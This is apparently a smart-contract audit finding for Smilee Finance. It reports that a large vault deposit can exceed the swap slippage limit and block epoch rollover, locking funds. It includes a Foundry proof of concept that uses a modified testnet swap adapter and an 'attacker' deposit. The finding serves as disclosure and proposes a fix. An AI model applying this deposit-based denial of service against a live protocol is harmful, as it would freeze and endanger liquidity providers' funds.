 Gentle Fiery Locust

high

# Dos through large deposit

## Summary

To maintain the balance between base tokens and side tokens, the Vault performs token swaps on Uniswap when rolling over epochs and during delta hedging (when minting/burning IG positions). The SwapAdapterRouter has a default slippage of 2% calculated on the price obtained from Chainlink. The problem is that when a large amount of tokens needs to be exchanged, the allowed slippage may be exceeded, leading to the impossibility of rolling over epochs and consequently causing a denial of service (DOS) on the protocol.

## Vulnerability Detail

https://github.com/sherlock-audit/2024-02-smilee-finance/blob/3241f1bf0c8e951a41dd2e51997f64ef3ec017bd/smilee-v2-contracts/src/providers/SwapAdapterRouter.sol#L152-L205

The implementation of the slippage check can be seen in the functions SwapAdapterRouter.swapIn and SwapAdapterRouter.swapOut. It is important to determine the amount of tokens needed to exceed the maximum slippage. For this purpose, I used the swap tool in the Uniswap V3 app. 
![Screenshot from 2024-03-06 12-14-53](https://github.com/sherlock-audit/2024-02-smilee-finance-gstoyanovbg/assets/57452234/27abe1e5-c93e-4594-9e8d-cdd50a540712)
![Screenshot from 2024-03-06 11-15-57](https://github.com/sherlock-audit/2024-02-smilee-finance-gstoyanovbg/assets/57452234/cadedcc5-5f2e-43b3-a5b9-4bedd042be2b)
![Screenshot from 2024-03-06 11-15-57](https://github.com/sherlock-audit/2024-02-smilee-finance-gstoyanovbg/assets/57452234/2081da68-df27-47b2-9f61-22928e08ca32)
![Screenshot from 2024-03-06 11-15-10](https://github.com/sherlock-audit/2024-02-smilee-finance-gstoyanovbg/assets/57452234/b08e3aec-511d-464e-ad25-8c5e76892090)
![Screenshot from 2024-03-06 11-12-33](https://github.com/sherlock-audit/2024-02-smilee-finance-gstoyanovbg/assets/57452234/9e8686c1-a7be-471e-8138-b6f520c3d8e0)

From the screenshots, it can be seen that $3M is needed for wETH, $1M for ARB, $645K for GMX, and only $30K for JOE. These are not excessively large amounts and it is entirely possible to reach them accidentally with a large deposit or with several smaller deposits in one epoch. On the other hand, a malicious user may deliberately deposit an appropriate amount to cause a DOS on the protocol. Even if the Vault is killed, deposits cannot be withdrawn through rescueShares because the requirement is for the Vault to be dead, which happens after the epoch is rolled over. There are two working solutions left to recover locked deposits and profits:
1) Administrators (or someone else) to deposit a certain amount of the opposite token directly to the Vault. This way, the amount that needs to be exchanged will be reduced so as not to exceed the maximum slippage. The problem is that after the epoch is rolled over, these funds will be distributed among share holders and the sender will lose them.
2) By increasing the maximum slippage through SwapAdapterRouter.setSlippage (the maximum is 10%) and rolling over the epoch at the cost of serious losses for LPs. This may not be enough to solve the problem, as is the case with JOE. It will be necessary to wait for the set delay in TimeLock to expire.

<details>
<summary>POC</summary>
This POC show how someone can make DOS using a single deposit but the same can be achieved with multiple deposits or withdraws. The amounts in this POC are for illustration and don't have any market meaning. 

To run this poc first should replace the content of testnet/TestnetSwapAdapter.sol with the one below. The idea of the changes is to simulate slippage.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.15;

import {Ownable} from "@openzeppelin/contracts/access/Ownable.sol";
import {IERC20Metadata} from "@openzeppelin/contracts/token/ERC20/extensions/IERC20Metadata.sol";
import {IExchange} from "../interfaces/IExchange.sol";
import {IPriceOracle} from "../interfaces/IPriceOracle.sol";
import {ISwapAdapter} from "../interfaces/ISwapAdapter.sol";
import {AmountsMath} from "../lib/AmountsMath.sol";
import {SignedMath} from "../lib/SignedMath.sol";
import {TestnetToken} from "../testnet/TestnetToken.sol";

import {console} from "forge-std/console.sol";


contract TestnetSwapAdapter is IExchange, Ownable {
    using AmountsMath for uint256;

    // Variables to simulate swap slippage (DEX fees and slippage together)
    // exact swap slippage (maybe randomly set at test setup or randomly changed during test), has the priority over the range
    int256 internal _exactSlippage; // 18 decimals
    // range to control a random slippage (between min and max) during a swap (see echidna tests)
    int256 internal _minSlippage; // 18 decimals
    int256 internal _maxSlippage; // 18 decimals

    IPriceOracle internal _priceOracle;

    error PriceZero();
    error TransferFailed();
    error InvalidSlippage();
    error Slippage();

    constructor(address priceOracle) Ownable() {
        _priceOracle = IPriceOracle(priceOracle);
    }

    function setSlippage(int256 exact, int256 min, int256 max) external onlyOwner {
        if (min > max || SignedMath.abs(exact) > 1e18 || SignedMath.abs(exact) > 1e18 || SignedMath.abs(exact) > 1e18) {
            revert InvalidSlippage();
        }
        _exactSlippage = exact;
        _minSlippage = min;
        _maxSlippage = max;
    }

    function changePriceOracle(address oracle) external onlyOwner {
        _priceOracle = IPriceOracle(oracle);
    }

    /// @inheritdoc IExchange
    function getOutputAmount(address tokenIn, address tokenOut, uint256 amountIn) external view returns (uint) {
        return _getAmountOut(tokenIn, tokenOut, amountIn);
    }

    /// @inheritdoc IExchange
    function getInputAmount(address tokenIn, address tokenOut, uint256 amountOut) external view returns (uint) {
        return _getAmountIn(tokenIn, tokenOut, amountOut);
    }

    /// @inheritdoc IExchange
    function getInputAmountMax(address tokenIn, address tokenOut, uint256 amountOut) external view returns (uint) {
        uint256 amountIn = _getAmountIn(tokenIn, tokenOut, amountOut);
        uint256 amountInSlip = slipped(amountIn, true);
        return amountIn > amountInSlip ? amountIn : amountInSlip;
    }

    /// @inheritdoc ISwapAdapter
    function swapIn(address tokenIn, address tokenOut, uint256 amountIn) external returns (uint256 amountOut) {
        if (!IERC20Metadata(tokenIn).transferFrom(msg.sender, address(this), amountIn)) {
            revert TransferFailed();
        }
        amountOut = _getAmountOut(tokenIn, tokenOut, amountIn);

        amountOut = slipped(amountOut, false);

        (uint256 amountOutMin, uint256 amountOutMax) = _slippedValueOut(tokenIn, tokenOut, amountIn);
        if (amountOut < amountOutMin || amountOut > amountOutMax) {
            revert Slippage();
        }

        TestnetToken(tokenIn).burn(address(this), amountIn);
        TestnetToken(tokenOut).mint(msg.sender, amountOut);
    }

    /// @inheritdoc ISwapAdapter
    function swapOut(
        address tokenIn,
        address tokenOut,
        uint256 amountOut,
        uint256 preApprovedAmountIn
    ) external returns (uint256 amountIn) {
        amountIn = _getAmountIn(tokenIn, tokenOut, amountOut);

        amountIn = slipped(amountIn, true);

        if (amountIn > preApprovedAmountIn) {
            revert InsufficientInput();
        }

        (uint256 amountInMax, uint256 amountInMin) = _slippedValueIn(tokenIn, tokenOut, amountOut);

        if (amountIn < amountInMin || amountIn > amountInMax) {
            revert Slippage();
        }

        if (!IERC20Metadata(tokenIn).transferFrom(msg.sender, address(this), amountIn)) {
            revert TransferFailed();
        }

        TestnetToken(tokenIn).burn(address(this), amountIn);
        TestnetToken(tokenOut).mint(msg.sender, amountOut);
    }

    function _getAmountOut(address tokenIn, address tokenOut, uint amountIn) internal view returns (uint) {
        uint tokenOutPrice = _priceOracle.getPrice(tokenIn, tokenOut);
        amountIn = AmountsMath.wrapDecimals(amountIn, IERC20Metadata(tokenIn).decimals());
        return AmountsMath.unwrapDecimals(amountIn.wmul(tokenOutPrice), IERC20Metadata(tokenOut).decimals());
    }

    function _getAmountIn(address tokenIn, address tokenOut, uint amountOut) internal view returns (uint) {
        uint tokenInPrice = _priceOracle.getPrice(tokenOut, tokenIn);

        if (tokenInPrice == 0) {
            // Otherwise could mint output tokens for free (no input needed).
            // It would be correct but we don't want to contemplate the 0 price case.
            revert PriceZero();
        }

        amountOut = AmountsMath.wrapDecimals(amountOut, IERC20Metadata(tokenOut).decimals());
        return AmountsMath.unwrapDecimals(amountOut.wmul(tokenInPrice), IERC20Metadata(tokenIn).decimals());
    }

    /// @dev "random" number for (testing purposes) between `min` and `max`
    function random(int256 min, int256 max) public view returns (int256) {
        uint256 rnd = block.timestamp;
        uint256 range = SignedMath.abs(max - min); // always >= 0
        if (rnd > 0) {
            return min + int256(rnd % range);
        }
        return min;
    }

    /// @dev returns the given `amount` slipped by a value (simulation of DEX fees and slippage by a percentage)
    function slipped(uint256 amount, bool directionOut) public view returns (uint256) {
        int256 slipPerc = _exactSlippage;

        if(amount > 400000e18)
        {
            slipPerc = 0.21e18;
        }
        else return amount;


        int256 out;
        if (directionOut) {
            out = (int256(amount) * (1e18 + slipPerc)) / 1e18;
        } else {
            out = (int256(amount) * (1e18 - slipPerc)) / 1e18;
        }
        if (out < 0) {
            out = 0;
        }

        return SignedMath.abs(out);
    }

    function getSlippage(address tokenIn, address tokenOut) public view returns (uint256 slippage) {
        // Default baseline value:
        if (slippage == 0) {
            return 0.02e18;
        }
    }

    function _slippedValueOut(
        address tokenIn,
        address tokenOut,
        uint256 amountIn
    ) private view returns (uint256 amountOutMin, uint256 amountOutMax) {
        uint256 amountOut = _getAmountOut(tokenIn, tokenOut, amountIn);
        amountOutMin = (amountOut * (1e18 - getSlippage(tokenIn, tokenOut))) / 1e18;
        amountOutMax = (amountOut * (1e18 + getSlippage(tokenIn, tokenOut))) / 1e18;
    }

    function _slippedValueIn(
        address tokenIn,
        address tokenOut,
        uint256 amountOut
    ) private view returns (uint256 amountInMax, uint256 amountInMin) {
        uint256 amountIn = _getAmountIn(tokenIn, tokenOut, amountOut);
        amountInMax = (amountIn * (1e18 + getSlippage(tokenIn, tokenOut))) / 1e18;
        amountInMin = (amountIn * (1e18 - getSlippage(tokenIn, tokenOut))) / 1e18;
    }

}
```

Then should add the function below to test/Scenarios.t.sol.

```solidity
function testDosWithDeposit() public 
    {
        string memory scenarioName = "scenario_1";
        bool isFirstEpoch = true;

        console.log(string.concat("Executing scenario: ", scenarioName));
        string memory scenariosJSON = _getTestsFromJson(scenarioName);

        console.log("- Checking start epoch");
        StartEpoch memory startEpoch = _getStartEpochFromJson(scenariosJSON);
        _checkStartEpoch(startEpoch, isFirstEpoch);

        address attacker = address(0x4);

        uint256 amount = 810000e18;

        TokenUtils.provideApprovedTokens(_admin, _vault.baseToken(), attacker, address(_vault), amount, vm);

        vm.startPrank(attacker);
        _vault.deposit(amount, attacker, 0);

         Utils.skipWeek(true, vm);
         vm.startPrank(_admin);
         //this call will revert due to slippage
         _dvp.rollEpoch();
    }
```

</details>

## Impact

Dos of the protocol, lock of funds which can be recovered at the cost of significant losses for administrators or LPs.

## Code Snippet

Above

## Tool used

Manual Review

## Recommendation

It is obvious that the slippage check cannot be removed because it protects the capital of LPs. A check for max deposits per epoch could be added, which, if well-calculated, would solve the problem, but it would severely limit the protocol. Another option is to introduce a max deposit per transaction and to balance the vault on every deposit (or when a certain amount is exceeded), not just when rolling over epochs. This is the solution I recommend.
